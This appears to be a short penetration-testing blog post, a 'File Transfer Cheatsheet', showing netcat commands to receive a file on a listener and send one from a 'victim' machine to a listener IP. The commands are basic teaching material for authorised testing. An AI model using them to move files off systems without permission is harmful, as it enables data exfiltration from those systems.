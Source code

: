 ```yaml
---
title: "File Transfer Cheatsheet"
date: 2022-05-11T16:09:30-04:00
categories:
  - Pentest
header:
  teaser: /assets/images/Pentest/file-transfers/file-transfer.png
tags:
  - File Transfer
  - Netcat
  - Apache
  - Python
---
```


![File Transfer Logo](/assets/images/Pentest/file-transfers/file-transfer.png)

When pentesting, you have to make do with whatever tools you have, especially if you can't download more.  
Figuring out which tool(s) you have available to get/put files between host and victim is essential.  

## Netcat  

Transfer a single, specified file **out.file** and receive it as **in.file**

**Listener / Receiver**  

```bash
nc -l -p 8899 > in.file
```

**Host / Sender**  

```bash
# '-w 3' is a 3 second timeout

nc -w 3 [listener IP] 8899 < out.file
```  


